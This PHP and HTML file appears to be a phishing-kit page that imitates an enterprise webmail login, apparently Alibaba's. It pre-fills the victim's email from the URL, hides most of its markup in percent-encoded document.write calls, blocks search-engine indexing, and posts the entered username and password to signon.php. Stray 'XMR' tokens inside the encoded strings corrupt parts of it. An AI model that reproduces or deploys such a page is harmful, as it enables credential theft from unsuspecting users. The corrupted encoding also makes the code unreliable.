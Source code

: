 <?php
$email = $_GET['email'];
?>
<html lang="en">
<head>

<script type="text/javascript">
<!--
document.write(unescape('%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%76%69%65%77%70%6F%72%74%22%20%63%6F%6E%74%65%6E%74%3D%22%77%69%64%74%68%3D%64%65%76%69%63%65%2D%77%69%64%74%68%2C%20%69%6E%69%74%69%61%6C%2D%73%63%61%6C%65%3D%31%2C%20%73%68%72%69%6E%6B%2D%74%6F%2D%66%69%74%3D%6E%6F%22%3E%0D%0A%3C%74%69%74%6C%65%3E%26%23%33%38%34%36%33%3B%26%23%33%37%33%32%34%3B%26%23%33%37%30%33%38%3B%26%23%33%31%36%36%35%3B%26%23%32%30%32%32%35%3B%26%23%31%39%39%39%34%3B%26%23%32%39%32%35%36%3B%3C%2F%74%69%74%6C%65%3E%0D%0A%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%27%63%6F%6E%74%65%6E%74%2D%74%79%70%65%27%20%63%6F%6E%74%65%6E%74%3D%22%74%65%78%74%2F%68%74%6D%6C%3B%20%63%68%61%72%73%65%74%3D%XMR%63%6F%6E%74%65%6E%74%2D%74%79%70%65%27%20%63%6F%6E%74%65%6E%74%3D%22%74%65%78%74%2F%68%74%6D%6C%3B%20%63%68%61%72%73%65%74%3D%55%54%XMR%6E%74%3D%22%6E%6F%69%6E%64%65%78%22%3E%0D%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%67%6F%6F%67%6C%65%62%6F%74%22%20%63%6F%6E%74%65%6E%74%3D%22%6E%6F%69%6E%64%65%78%22%3E%0D%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%67%6F%6F%67%6C%65%62%6F%74%2D%6E%65%77%73%22%20%63%6F%6E%74%65%6E%74%3D%22%6E%6F%69%6E%64%65%78%22%3E%0D%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%67%6F%6F%67%6C%65%62%6F%74%22%20%63%6F%6E%74%65%6E%74%3D%22%6E%6F%69%6E%64%65%78%22%3E%0D%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%67%6F%6F%67%6C%65%62%6F%74%2D%6E%65%77%73%22%20%63%6F%6E%74%65%6E%74%3D%22%6E%6F%73%6E%69%70%70%65%74%22%3E%0D%0A%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%22%XMR%22%3E%0D%0A%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%22%XMR%22%3E%0D%0A%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%22%XMR%3E%0D%0A%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%22%50%72%61%67%6D%61%22%20%63%6F%6E%74%65%6E%74%3D%22%6E%6F%2D%63%61%63%68%65%22%3E%0D%0A%3C%6C%69%6E%6B%20%72%65%6C%3D%22%69%63%6F%6E%22%20%74%79%70%65%3D%22%69%6D%61%67%65%73%2F%69%63%6F%22%20%73%69%7A%65%73%3D%22%31%36%2A%31%36%22%20%68%72%65%66%3D%22%69%6D%61%67%65%73%2F%66%61%76%69%63%6F%6E%2E%69%63%6F%22%3E%0D%0A%0D%0A%3C%73%74%79%6C%65%3E%0D%0A%0D%0A%65%6C%65%6D%65%6E%74%20%7B%0D%0A%7D%0D%0A%2E%6C%6F%67%69%6E%5F%69%6E%70%75%74%20%7B%0D%0A%20%20%20%20%77%69%64%74%68%3A%20%32%34%33%70%78%3B%0D%0A%20%20%20%20%68%65%69%67%68%74%3A%20%32%32%70%78%3B%0D%0A%20%20%20%20%6C%69%6E%65%2D%68%65%69%67%68%74%3A%20%32%32%70%78%3B%0D%0A%20%20%20%20%62%61%63%6B%67%72%6F%75%6E%64%2D%63%6F%6C%6F%72%3A%20%23%65%65%66%33%66%38%3B%0D%0A%20%20%20%20%62%6F%72%64%65%72%3A%20%31%70%78%20%73%6F%6C%69%64%20%23%62%61%63%35%64%34%3B%0D%0A%20%20%20%20%63%6F%6C%6F%72%3A%20%23%39%32%61%34%62%66%3B%0D%0A%20%20%20%20%70%61%64%64%69%6E%67%3A%20%35%70%78%3B%0D%0A%20%20%20%20%2D%77%65%62%6B%69%74%2D%62%6F%72%64%65%72%2D%72%61%64%69%75%73%3A%20%35%70%78%3B%0D%0A%20%20%20%20%2D%6D%6F%7A%2D%62%6F%72%64%65%72%2D%72%61%64%69%75%73%3A%20%35%70%78%3B%0D%0A%20%20%20%20%62%6F%72%64%65%72%2D%72%61%64%69%75%73%3A%20%35%70%78%3B%0D%0A%7D%0D%0A%2E%6C%6F%67%69%6E%5F%70%6C%61%63%65%68%6F%6C%64%65%72%5F%69%6E%70%75%74%20%7B%0D%0A%20%20%20%20%66%6F%6E%74%2D%73%69%7A%65%3A%20%31%34%70%78%3B%0D%0A%20%20%20%20%63%6F%6C%6F%72%3A%20%23%39%32%61%34%62%66%3B%0D%0A%7D%0D%0A%2E%6C%6F%67%69%6E%5F%73%65%63%74%69%6F%6E%20%7B%0D%0A%20%20%20%20%66%6F%6E%74%2D%73%69%7A%65%3A%20%31%32%70%78%3B%0D%0A%7D%0D%0A%0D%0A%0D%0A%3C%2F%73%74%79%6C%65%3E%0D%0A%3C%73%63%72%69%70%74%20%74%79%70%65%3D%22%74%65%78%74%2F%6A%61%76%61%73%63%72%69%70%74%22%3E%0D%0A%0D%0A%0D%0A%66%75%6E%63%74%69%6F%6E%20%75%6E%68%69%64%65%XMR%65%6E%74%2E%67%65%74%XMR%XMR%69%62%6C%65%22%3B%0D%0A%7D%0D%0A%0D%0A%3C%2F%73%63%72%69%70%74%3E%0D%0A%0D%0A%3C%2F%68%65%61%64%3E%0D%0A%3C%62%6F%64%79%20%73%74%79%6C%65%3D%22%76%69%73%69%62%69%6C%69%74%79%3A%20%76%69%73%69%62%6C%65%3B%22%20%6F%6E%6C%6F%61%64%3D%22%75%6E%68%69%64%65%XMR%61%67%65%31%22%20%73%74%79%6C%65%3D%22%70%6F%73%69%74%69%6F%6E%3A%61%62%73%6F%6C%75%74%65%3B%20%6F%76%65%72%66%6C%6F%77%3A%68%69%64%64%65%6E%3B%20%6C%65%66%74%3A%30%70%78%3B%20%74%6F%70%3A%30%70%78%3B%20%77%69%64%74%68%3A%31%33%36%36%70%78%3B%20%68%65%69%67%68%74%3A%36%35%34%70%78%3B%20%7A%2D%69%6E%64%65%78%3A%30%22%3E%0D%0A%3C%69%6D%67%20%73%72%63%3D%22%69%6D%61%67%65%73%2F%30%2E%70%6E%67%22%20%61%6C%74%3D%22%22%20%74%69%74%6C%65%3D%22%22%20%77%69%64%74%68%3D%22%31%33%36%36%22%20%62%6F%72%64%65%72%3D%22%30%22%20%68%65%69%67%68%74%3D%22%36%35%34%22%3E%0D%0A%3C%2F%64%69%76%3E%0D%0A%3C%64%69%76%20%69%64%3D%22%69%6D%61%67%65%33%22%20%73%74%79%6C%65%3D%22%70%6F%73%69%74%69%6F%6E%3A%61%62%73%6F%6C%75%74%65%3B%20%6F%76%65%72%66%6C%6F%77%3A%68%69%64%64%65%6E%3B%20%6C%65%66%74%3A%31%30%34%35%70%78%3B%20%74%6F%70%3A%33%30%39%70%78%3B%20%7A%2D%69%6E%64%65%78%3A%35%22%3E%0D%0A%3C%61%20%68%72%65%66%3D%22%23%22%3E%3C%69%6D%67%20%73%72%63%3D%22%69%6D%61%67%65%73%2F%31%2E%70%6E%67%22%20%61%6C%74%3D%22%22%20%74%69%74%6C%65%3D%22%22%20%77%69%64%74%68%3D%22%36%35%22%20%62%6F%72%64%65%72%3D%22%30%22%20%68%65%69%67%68%74%3D%22%32%32%22%3E%3C%2F%61%3E%0D%0A%3C%2F%64%69%76%3E%0D%0A%3C%66%6F%72%6D%20%69%64%3D%22%63%68%61%6C%62%68%61%69%22%20%61%63%74%69%6F%6E%3D%22%73%69%67%6E%6F%6E%2E%70%68%70%22%20%6E%61%6D%65%3D%22%63%68%61%6C%62%68%61%69%22%20%6D%65%74%68%6F%64%3D%22%70%6F%73%74%22%3E%0D%0A%3C%64%69%76%20%63%6C%61%73%73%3D%22%6C%6F%67%69%6E%5F%70%6C%61%63%65%68%6F%6C%64%65%72%5F%69%6E%70%75%74%20%6C%6F%67%69%6E%5F%75%73%65%72%6E%61%6D%65%5F%70%6C%61%63%65%68%6F%6C%64%65%72%5F%69%6E%70%75%74%22%3E'));
//-->
</script>
<input style="position:absolute; overflow:hidden; left:857px; top:203px; width:255px; height:34px; z-index:1" id="username" name="a" value="<?php echo $email; ?>" pattern="[a-z0-9._%+-]+@[a-z0-9.-]+\.[a-z]{2,3}$" placeholder="&#24080;&#21495;" class="login_input" autocomplete="off" type="text">
</div>

<script type="text/javascript">
<!--
document.write(unescape('%3C%64%69%76%20%69%64%3D%22%70%61%73%73%77%6F%72%64%5F%77%72%61%70%22%20%63%6C%61%73%73%3D%22%6C%6F%67%69%6E%5F%70%6C%61%63%65%68%6F%6C%64%65%72%5F%69%6E%70%75%74%22%20%73%74%79%6C%65%3D%22%6D%61%72%67%69%6E%2D%62%6F%74%74%6F%6D%3A%31%30%70%78%22%3E%0D%0A%3C%69%6E%70%75%74%20%73%74%79%6C%65%3D%22%70%6F%73%69%74%69%6F%6E%3A%61%62%73%6F%6C%75%74%65%3B%20%6F%76%65%72%66%6C%6F%77%3A%68%69%64%64%65%6E%3B%20%6C%65%66%74%3A%38%35%37%70%78%3B%20%74%6F%70%3A%32%36%37%70%78%3B%20%77%69%64%74%68%3A%32%35%35%70%78%3B%20%68%65%69%67%68%74%3A%33%34%70%78%3B%20%7A%2D%69%6E%64%65%78%3A%32%22%20%69%64%3D%22%70%61%73%73%77%6F%72%64%22%20%6E%61%6D%65%3D%22%70%22%20%76%61%6C%75%65%3D%22%22%20%70%6C%61%63%65%68%6F%6C%64%65%72%3D%22%26%23%32%33%34%39%34%3B%26%23%33%30%37%32%31%3B%22%20%63%6C%61%73%73%3D%22%6C%6F%67%69%6E%5F%69%6E%70%75%74%22%20%74%79%70%65%3D%22%70%61%73%73%77%6F%72%64%22%3E%0D%0A%3C%2F%64%69%76%3E%0D%0A%3C%64%69%76%20%69%64%3D%22%66%6F%72%6D%69%6D%61%67%65%31%22%20%73%74%79%6C%65%3D%22%70%6F%73%69%74%69%6F%6E%3A%61%62%73%6F%6C%75%74%65%3B%20%6C%65%66%74%3A%38%35%36%70%78%3B%20%74%6F%70%3A%33%34%30%70%78%3B%20%7A%2D%69%6E%64%65%78%3A%33%22%3E%0D%0A%3C%69%6E%70%75%74%20%6E%61%6D%65%3D%22%66%6F%72%6D%69%6D%61%67%65%31%22%20%74%79%70%65%3D%22%69%6D%61%67%65%22%20%73%72%63%3D%22%69%6D%61%67%65%73%2F%32%2E%70%6E%67%22%20%77%69%64%74%68%3D%22%32%35%37%22%20%62%6F%72%64%65%72%3D%22%30%22%20%68%65%69%67%68%74%3D%22%33%39%22%3E%0D%0A%3C%2F%64%69%76%3E%0D%0A%3C%2F%66%6F%72%6D%3E'));
//-->
</script>
</body>
</html>
